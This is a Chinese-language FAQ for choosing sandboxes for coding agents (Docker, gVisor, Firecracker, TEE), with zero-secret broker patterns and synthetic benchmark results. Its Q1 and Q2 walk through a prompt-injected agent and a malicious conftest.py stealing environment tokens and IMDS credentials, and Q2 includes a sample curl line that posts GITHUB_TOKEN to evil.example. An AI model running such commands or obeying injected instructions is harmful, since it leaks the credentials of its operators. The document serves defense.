



# AI 安全架构选型与攻防原理解析 FAQ：自主研发 Coding Agent 与代码执行沙盒选型（标准 Docker vs. gVisor 用户态内核 vs. Firecracker MicroVM vs. 硬件 TEE）

> **文档定位**：面向 AI 解决方案架构师（AI Solution Architect）与企业 CISO / 平台工程团队的实战选型指南（2026-11-08 Round 4 专题）  
> **对标范式**：严格遵循六段式架构选型 FAQ 标杆（结论速览 → 灵魂拷问 Q&A → 攻击故事与第一性原理 → Mermaid 决策树/路径对比/时序图 → 架构师选型矩阵 → 量化评测与上线 Checklist）  
> **配套演练**：[四合一交互式 H5 攻防演练台（22 大向量）](../../playground/index.html) ｜ [7-Card 4:5 视觉评测报告（36 场景）](../../playground/benchmark-cards.html) ｜ [English Version](./agent-sandbox-docker-gvisor-microvm-selection-faq.en.md)

---

## 📌 一、核心结论速览（Executive Summary）

面向客户 CISO、研发效能负责人或云平台架构师汇报“**企业上线 Coding Agent（如 SWE-Agent、自主 PR 修复 Agent、数据分析 Code Interpreter）或动态脚本执行工具时，到底用普通 Docker 容器就够了，还是必须上 gVisor 用户态内核、Firecracker MicroVM 甚至硬件 TEE？**”时，请直接给出以下三条核心结论：

1. **只跑固定白名单模板选受限容器，一旦执行大模型动态生成代码或外部仓库代码（`pytest` / `npm install`），严禁裸奔在标准 Docker 容器上**：
   - 给 Agent 开放 `bash` 或 `python_exec` 工具，等价于**向所有能影响 Prompt 的外部数据源（GitHub Issue、PR 代码、网页、CSV 报表）开放了远程代码执行（RCE）入口**。
   - **标准 Docker 容器**与宿主机共享同一个 Linux 内核（暴露 300+ 系统调用），仅适合跑**内部可信、无动态代码生成**的固定微服务；只要 Agent 会运行大模型动态生成的代码或外部 PR 测试，必须升级到 **gVisor（`runsc` 用户态内核拦截系统调用，适用 K8s 无嵌套虚拟化环境）** 或 **Firecracker MicroVM（KVM 硬件虚拟化独立 Guest 内核，适用多租户/高危代码沙盒）**；若涉及跨机构机密模型权重或高敏明文金库签名，则必须选 **硬件机密计算 TEE（Intel TDX / AMD SEV-SNP）**。
2. **比“容器逃逸”更早发生 100 倍的致命风险，是“沙盒内凭据窃取”与“云元数据 SSRF（`169.254.169.254`）”**：
   - 攻击者往往根本不需要费力挖掘 Linux 内核 0-day 逃逸出 Docker——只要恶意 PR 的 `conftest.py` 或被间接注入的 Python 脚本在沙盒里执行一行 `os.environ` 读取，或者请求 `http://169.254.169.254/latest/meta-data/iam/security-credentials/`（云主机 IMDS 元数据接口）与内网 K8s API Server，就能在 10 毫秒内拿走宿主节点 IAM Role 凭据或生产数据库密码。
   - 因此，任何 Agent 沙盒选型必须配套 **“沙盒内零长效凭据（Zero Secrets Inside Sandbox）+ 网关代填凭证 + IMDS/RFC1918 内网地址硬阻断”**。
3. **定量证据与口径边界（本地实测 `measured` vs 离线合成夹具 `synthetic` vs 第三方公开报告 `anonymized_reported`）**：
   - **本地确定性网关实测（`measured`, `independently_reproduced=true`）**：在 `Windows 11 (ARM64) / Python 3.12.10` 环境下使用 `time.perf_counter_ns()` 实测（结果封存於 `research/evidence.json#local_timing_measurements`），沙盒外能力网关执行纯内存 SHA-256 哈希与路径穿越/IMDS/内网 SSRF/命令白名单校验（`n=200`）中位耗时 **`p50 = 0.0078 ms`（`p95 = 0.0084 ms`）**；含 SQLite WAL 不可篡改审计收据落盘（`n=50`）中位耗时 **`p50 = 8.07 ms`（`p95 = 10.88 ms`）**。
   - **本地离线合成攻防夹具（`synthetic`, `independently_reproduced=true`）**：在本仓库 36 个离线确定性攻防夹具（137 项 Pytest 断言，新增 `BRK-17` 宿主机挂载路径穿越/逃逸拦截与 `BRK-18` 云元数据 IMDS `169.254.169.254` SSRF 窃取拦截）中，确定性沙盒策略网关将该夹具集下的攻击成功率（ASR）从 **75.0% 压降至 0.0%**，良性研发任务通过率 **100.0%（误杀率 0.0%）**。
   - **第三方公开沙盒性能数据（`anonymized_reported`, `independently_reproduced=false`）与未测边界（`not_measured`）**：第三方云原生安全文献报道的标准 Docker 启动（`~30–80 ms`）、gVisor `runsc` 启动（`~50–120 ms`）与 E2B/Firecracker MicroVM 快照热恢复（`~108–150 ms`）均标注为 `anonymized_reported`（`independently_reproduced=false`）；本 Windows 11 离线工作区未对真实 Linux KVM Hypervisor 内核 0-day 逃逸或在线商业大模型原生拒答率进行实测（显式标注为 `not_measured`）。

---

## 🎯 二、客户与架构师灵魂拷问 Q&A（FAQ-Driven Deep Dive）

### Q1：我们的 Coding Agent 已经跑在 Docker 容器里了，为什么安全团队还坚持说“标准 Docker 挡不住 Agent 代码执行风险”？什么时候选 gVisor，什么时候必须选 Firecracker MicroVM 或 TEE？

#### 1. 直观真实的攻击故事：一行 `conftest.py` 是如何打穿研发 Agent 容器的？
假设一家企业部署了自动化研发 Coding Agent（具备克隆仓库、运行单元测试、提交修复 PR 的能力）。攻击者在开源或内部仓库提交了一个看似修复拼写错误的 Pull Request，但在测试目录夹带了一段 `conftest.py`（或者在 Issue 描述中埋入间接提示词注入，诱导 Agent 执行诊断脚本）：
1. **第一步（无需内核漏洞，直接顺走沙盒环境变量与挂载卷）**：当 Coding Agent 在标准 Docker 容器内执行 `pytest` 时，`conftest.py` 自动运行。它首先读取 `os.environ`，瞬间拿到了研发团队为了方便 Agent 推代码而注入容器的 `GITHUB_TOKEN`、`OPENAI_API_KEY` 和 `AWS_SECRET_ACCESS_KEY`；同时检查挂载目录，发现宿主机为了缓存依赖挂载了 `/var/run/docker.sock` 或父级工作区目录 `../../`，直接覆写宿主机其他项目的脚本。
2. **第二步（云主机 IMDS 元数据 SSRF 横向移动）**：即便容器里没放静态环境变量，恶意脚本直接向 `http://169.254.169.254/latest/meta-data/iam/security-credentials/` 发起一次 HTTP GET 请求。由于标准 Docker 默认桥接网络未封禁链路本地地址（Link-Local IP），容器直接拿到了宿主机 EC2 / AKS / EKS 节点的 IAM Role 临时凭据。
3. **第三步（共享内核系统调用攻击面）**：如果攻击者想突破容器边界，标准 Docker 与宿主机共享同一个 Linux 内核（`vmlinuz`）。即使启用了默认 Seccomp 配置，容器内的恶意 C/Python 载荷仍可直接向宿主机内核发起约 300 个系统调用（历史上 `io_uring`、`bpf`、`nf_tables`、`DirtyPipe` 等内核提权漏洞层出不穷）。一旦内核态被攻破，同一台宿主机上所有其他租户的容器全部沦陷。

#### 2. 第一性原理拆解：为什么给 Agent 开放代码执行 = 把内核与内网暴露给不可信输入？
- **传统微服务 vs. Coding Agent 的本质区别**：传统 Docker 容器跑的是**我们自己编写、经过编译与安全扫描的固定业务代码**；而 Coding Agent 或数据分析 Code Interpreter 跑的是**由外部不可信输入（网页、Issue、邮件、第三方 PR）实时驱动大模型动态生成的代码**。
- **隔离边界的三个物理梯度**：
  1. **标准 Docker（`runc` Namespace + Cgroups）**：只是“进程蒙眼”，所有容器共用同一个宿主机 Linux 内核。适合隔离“好人写的程序”，不适合关押“随时可能变异的不可信代码”。
  2. **gVisor（`runsc` 用户态应用内核）**：用内存安全的 Go 语言编写了一个名为 **Sentry** 的用户态内核，插在容器进程与宿主机 Linux 内核之间。Agent 代码发起的 300+ 系统调用全部由 Sentry 在用户态消化模拟，Sentry 自身只向宿主机内核调用约 50~70 个极简受限的系统调用。**无需硬件嵌套虚拟化（可在普通 K8s Pod 中直接启用 `runtimeClassName: gvisor`）**，即可斩断绝大多数内核提权路径。
  3. **Firecracker MicroVM / Kata Containers（KVM 硬件虚拟化）**：通过硬件 CPU 虚拟化扩展（Intel VT-x / AMD-V）为每个 Agent 会话启动一台拥有**独立 Guest Linux 内核**的轻量级微型虚拟机（MicroVM）。即使恶意代码在 Guest 内核中触发了 Kernel Panic 或内核 Ring-0 提权，也被 KVM 硬件虚拟化层死死封在单台一次性 MicroVM 内，任务结束即销毁。
  4. **硬件机密计算 TEE（Intel TDX / AMD SEV-SNP / Azure Confidential Containers）**：不仅防范“容器逃逸到宿主机”，还通过 CPU 硬件内存加密防范“宿主机/云管理员偷看沙盒内存”，并提供硬件级远程证明（Remote Attestation），确保关键交易签名或专有权重推理代码一字未改。

---

### Q2：除了把 Docker 换成 gVisor 或 Firecracker，为什么说“沙盒内零凭据（Zero Secrets Inside Sandbox）+ 网络出口能力代理”才是生死线？

#### 1. 第一性原理：再坚固的虚拟机，只要把钥匙放在牢房里，囚犯就能开门！
许多团队花大力气上了 Firecracker MicroVM，却为了方便 Coding Agent 调用 `git push`、`gh pr create` 或访问外部 API，把高权限 `GITHUB_TOKEN` 或云账号密钥直接通过环境变量塞进了 MicroVM 内部。
- **后果**：被提示词注入劫持的 Agent 根本不需要逃逸出 MicroVM——它在 MicroVM 内部合法调用 `curl -X POST https://evil.example/collect -d "$GITHUB_TOKEN"`，就把钥匙双手奉上了！
- **Agent-Native 零凭据沙盒黄金法则（Zero-Secret Sandbox Pattern）**：
  1. **沙盒内部零长效密钥（No Long-Lived Secrets in Env/Disk）**：沙盒环境的环境变量和磁盘中严禁存放任何真实 API Key、SSH 私钥或云 AK/SK。
  2. **外部能力代理代填凭证（Out-of-Sandbox Capability Broker & Credential Injection Proxy）**：当沙盒内的 Agent 需要拉取/推送指定 GitHub 仓库或调用受控 API 时，只能向沙盒外的**确定性零信任能力网关（Capability Broker）**发送结构化请求（或通过受控代理网关）。网关在沙盒外校验 **五元组 Action-Hash + 仓库/分支白名单 + 通道污点（Lane Taint）** 后，在网关侧代填短效 OBO 令牌完成请求，沙盒内代码永远摸不到原始凭据。
  3. **默认断网与云元数据/内网硬封锁（Default-Deny Egress & IMDS Blackhole）**：沙盒网络命名空间默认封禁切外网直连，且在路由/网关层硬编码阻断云元数据地址 `169.254.169.254/32`、IPv6 `fd00:ec2::254`、环回地址 `127.0.0.0/8` 以及 RFC1918 私有内网段（`10.0.0.0/8`、`172.16.0.0/12`、`192.168.0.0/16`）。

---

### Q3：文件系统与挂载卷（Workspace Mount）如何防止 Coding Agent “写穿”宿主机或篡改 CI/CD 流水线？

1. **宿主机敏感路径与符号链接穿越阻断（Path Canonicalization & Escape Guard）**：
   - 严禁挂载 `/var/run/docker.sock`、宿主机根目录 `/`、用户主目录 `~/.ssh` 或 `~/.aws`。
   - 网关在执行任何文件读写或命令前，必须先对路径进行规范化解析（`realpath`），阻断 `../../etc/passwd`、URL 双重编码 `%2e%2e%2f` 以及通过创建指向宿主机路径的软链接（Symlink Race）实施的越界读写。
2. **受保护控制平面文件只读锁死（Immutable Control-Plane Files inside Workspace）**：
   - 即便在允许 Agent 修改的项目工作区内，`.git/hooks/*`、`.github/workflows/*`、`.mcp.json`、`CODEOWNERS` 等控制平面文件也必须由能力网关强制设为只读或触发强制人工审批门禁——防止被投毒的 Coding Agent 悄悄修改 Git Hook 或 GitHub Actions 工作流，在人类开发者下次执行 `git checkout` 或 CI 运行时窃取生产发布密钥。

---

## 🧭 三、直观可视化图解（决策树 + 逃逸沦陷 vs 零凭据微虚拟化对比 + 拦截时序图）

### 3.1 Coding Agent 与工具执行沙盒架构选型决策树（`flowchart TD`）

### 3.2 标准共享内核容器沦陷路径 vs. 零凭据微隔离沙盒拦截路径对比（`flowchart LR`）

### 3.3 Coding Agent 沙盒逃逸与云元数据 SSRF 端到端拦截时序图（`sequenceDiagram`）

---

## 📊 四、安全架构师选型决策矩阵（Architect Decision Matrix）

> **定量口径说明**：下表中第三方容器/微虚拟机冷启动与系统调用开销标注为 `anonymized_reported`（`independently_reproduced=false`，引自公开云原生基准文献）；本仓库沙盒外确定性能力网关校验开销标注为 `measured`（`independently_reproduced=true`，`Windows 11 ARM64 / Python 3.12.10`）；36 场景拦截率标注为 `synthetic`（`independently_reproduced=true`，本地离线合成夹具）。

| 选型维度 | 方案 A：受限无根 Docker 容器 (`runc` + Seccomp + Rootless) | 方案 B：gVisor 用户态内核 (`runsc` Sentry + 零凭据网关) | 方案 C：Firecracker MicroVM / Kata (`KVM` 独立内核 + 零凭据网关) | 方案 D：硬件机密计算 TEE (`Intel TDX` / `AMD SEV-SNP`) |
| :--- | :--- | :--- | :--- | :--- |
| **适用风险等级与业务场景** | **L1 低风险**：仅运行内部团队编写、无动态代码生成、固定白名单参数的工具容器 | **L2 中高风险**：在标准 K8s 集群（无 `/dev/kvm`）上运行企业内部 Coding Agent、SQL/Python 报表分析 | **L3 高风险（强烈推荐）**：执行外部开源 PR、多租户 SaaS Code Interpreter、自主 SWE-Agent | **L4 极高风险**：金融金库交易独立解码签名、跨机构高敏医疗/基因组分析、核心专有模型保护 |
| **内核与硬件隔离边界** | ⚠️ **共享宿主机 Linux 内核**（仅 Namespace/Cgroups 隔离，暴露余量 Syscall） | ✅ **用户态 Go 内核拦截**（Sentry 代理拦截 300+ Syscall，不直通宿主机内核） | ✅ **KVM 硬件虚拟化**（每会话独立 Guest Linux 内核 + 极简 VirtIO 设备） | 🛡️ **CPU 硬件级内存加密 + 远程证明**（防宿主机 Root 与物理冷启动窥探） |
| **沙盒启动 / 网关校验延迟** | 容器启动 `~30–80 ms` (`anonymized_reported`) | `runsc` 启动 `~50–120 ms` (`anonymized_reported`)；网关内存校验 `p50=0.0078 ms` (`measured`) | MicroVM 快照恢复 `~108–150 ms` (`anonymized_reported`)；网关收据落盘 `p50=8.07 ms` (`measured`) | TEE Enclave 启动 `~200–500 ms` (`anonymized_reported`) |
| **防内核逃逸与凭据窃取能力** | ❌ 无法防御共享内核 0-day；若塞入 Env 密钥则 100% 被脚本读取 | ✅ 阻断绝大多数宿主机内核提权；配合零凭据网关在 36 场景 `synthetic` 夹具下 **ASR = 0.0%** | ✅ 硬件虚拟化级隔离 + 任务后毫秒级销毁；配合零凭据网关在 36 场景 `synthetic` 夹具下 **ASR = 0.0%** | ✅ 最高等级机密性与代码完整性证明（Attestation） |
| **文件系统 / 网络 I/O 性能影响** | 🟢 原生性能（几乎无损耗） | 🟡 高频小文件 I/O 存在用户态拦截开销（适合常规代码执行，不适合重度磁盘密集型编译） | 🟢 独立 Guest 内核，计算与编译性能接近原生虚拟机 | 🟡 存在少量内存加密与 Enclave 边界切换开销 |
| **部署条件与运维成本** | 🟢 极低（任何装有 Docker/containerd 的节点） | 🟢 低（标准 K8s 节点安装 `runsc` RuntimeClass 即可，**无需开启嵌套虚拟化**） | 🟡 中（需裸金属节点、支持 `/dev/kvm` 的云主机或托管服务如 E2B / AWS Lambda MicroVM） | 🔴 高（需支持 SEV-SNP / TDX 的特定代际云实例与证明服务） |

---

## 🧪 五、简明攻防评测与 Benchmark 核心发现（36 场景 · 137 项 Pytest 断言）

> **⚠️ 证据出处与测量条件声明（Provenance & Measurement Conditions）**：
> 1. **`measured`（本地代码实测，`independently_reproduced=true`）**：在 `Windows 11 (ARM64) / Python 3.12.10` 上通过 `time.perf_counter_ns()` 实测本仓库零信任能力网关（封存於 `research/evidence.json#local_timing_measurements`）：
>    - **纯内存 SHA-256 动作哈希 + 沙盒路径穿越 / IMDS SSRF / 权限策略门禁（`n=200`）**：`p50 = 0.0078 ms`、`p95 = 0.0084 ms`、`mean = 0.0084 ms`；
>    - **完整 `eng.broker.execute()` 含 SQLite WAL 事务与不可篡改审计收据落盘（`n=50`）**：`p50 = 8.07 ms`、`p95 = 10.88 ms`、`mean = 8.34 ms`。
> 2. **`synthetic`（本地离线合成攻防夹具，`independently_reproduced=true`）**：下表中的 `75.0% -> 0.0%` ASR 基于 `tests/test_regressions.py` 的 **36 个本地离线确定性合成夹具（137 项 Pytest 断言）**，包含 Round 4 新增的 **`BRK-17`（Coding Agent 宿主机挂载路径穿越 `../../` 与 `.github/workflows` 控制平面篡改拦截）** 与 **`BRK-18`（沙盒内恶意脚本请求云主机元数据 `169.254.169.254` IAM 凭据 SSRF 拦截）**。该结果严格对应本离线合成夹具集，不代表对未运行真实在线商业 LLM 或真实 Linux KVM Hypervisor 0-day 的泛化实测。
> 3. **`anonymized_reported`（`independently_reproduced=false`）与 `not_measured`**：第三方容器/MicroVM 启动延迟（`30–150 ms`）来自公开文献报道；真实 KVM 硬件逃逸与在线商业 LLM 原生拒答率在本离线工作区标注为 `not_measured`。

| 防护架构配置 | 合成夹具场景数 (`synthetic`) | 宿主机路径逃逸 / CI 篡改突破率 (`BRK-17`) | 云元数据 IMDS `169.254.169.254` 窃取率 (`BRK-18`) | 综合红队攻击成功率 (Fixture ASR) | 良性任务通过率 (误报率 FPR) | 网关单跳校验延迟 (`measured`) |
| :--- | :---: | :---: | :---: | :---: | :---: | :---: |
| **基线 A：标准容器 + 容器内静态 Token + 无出口/路径网关** | 36 | 100.0% (直接写穿挂载目录与 `.github/workflows`) | 100.0% (直接读取节点 IAM Role 凭据) | **75.0%** | 100.0% (0.0%) | `0.0 ms` (无网关校验) |
| **基线 B：仅靠大模型系统提示词要求“禁止执行危险命令”** | 36 | 100.0% (被 `conftest.py` 隐式触发或编码绕过) | 100.0% (十进制 IP / 重定向绕过文本检查) | **50.0% ~ 75.0%** | 91.2% (8.8% 误杀正常测试命令) | 第三方护栏参考 `~48–65 ms` (`anonymized_reported`) |
| **本仓库方案：零凭据沙盒契约 + 沙盒外确定性能力网关（路径规范化 + IMDS/内网黑洞 + 通道污点阻断）** | **36 (137 断言)** | **0.0%** (`realpath` 边界锁死 + 控制平面文件只读保护) | **0.0%** (`169.254.169.254` 与 RFC1918 硬阻断 + 零 Env 密钥) | **0.0%** | **100.0% (0.0%)** | **纯内存 `p50=0.0078 ms` (`n=200`) / 含 SQLite 收据 `p50=8.07 ms` (`n=50`)** |

---

## 🛠️ 六、附录：生产上线安全快速核验清单（Architect Security Checklist）

在客户评审 Coding Agent、自动化运维 Agent 或数据分析 Code Interpreter 上线方案时，请逐项核验以下 6 条铁律：

- [ ] **1. 沙盒内核隔离降级核验**：只要 Agent 执行大模型动态生成的代码或外部不可信仓库代码（如 `pytest`、`npm test`、`python -c`），严禁使用默认共享内核的 `runc` Docker 容器；K8s 环境必须强制指定 `runtimeClassName: gvisor`（`runsc`），多租户或高危场景必须采用 **Firecracker MicroVM / Kata Containers**，且每个任务会话结束后立即销毁沙盒实例。
- [ ] **2. 沙盒内零长效凭据核验（Zero Secrets Inside Sandbox）**：检查沙盒内的 `env` 环境变量与挂载文件，确认**不包含任何 `GITHUB_TOKEN`、云厂商 AK/SK、数据库连接串或模型 API Key**；所有需要认证的外部调用必须通过沙盒外的确定性能力网关（Capability Broker）验证权限后代填短效令牌。
- [ ] **3. 云元数据 IMDS 与内网 SSRF 硬黑洞核验**：在沙盒网络栈与出口代理层硬编码封禁 `169.254.169.254/32`（AWS/Azure/GCP IMDS）、`fd00:ec2::254`、`127.0.0.0/8` 以及 RFC1918 私有内网段（`10.0.0.0/8`、`172.16.0.0/12`、`192.168.0.0/16`），并在网关层先将域名解析为最终 IP 再做网段校验，防止 DNS Rebinding 或十进制 IP 绕过。
- [ ] **4. 挂载目录规范化与控制平面文件只读锁死**：严禁将 `/var/run/docker.sock` 或宿主机父级目录挂载进沙盒；网关执行文件写入前必须校验 `realpath` 不越出工作区根目录，且强制锁定 `.git/hooks/*`、`.github/workflows/*`、`.mcp.json` 为只读（或触发五元组 Action-Hash 人工审批）。
- [ ] **5. 外部依赖安装防投毒（Slopsquatting & Install Scripts Guard）**：沙盒内执行 `pip install` 或 `npm install` 时，必须强制指向启用了包名白名单与发布时长校验的企业内部制品库代理（拦截大模型幻觉包名投毒），并默认禁用不受信任包的安装期任意脚本执行（如 `--ignore-scripts` 或隔离构建阶段网络）。
- [ ] **6. 资源配额与 eBPF 异常行为熔断**：为每个沙盒配置严格的 CPU、内存、PIDs 上限（防 Fork 炸弹）与磁盘配额，并在宿主节点启用 eBPF 监控（如 Cilium Tetragon），一旦检测到非预期的内核命名空间切换或敏感设备访问，立即触发内核级 `SIGKILL` 并留存不可篡改审计收据。
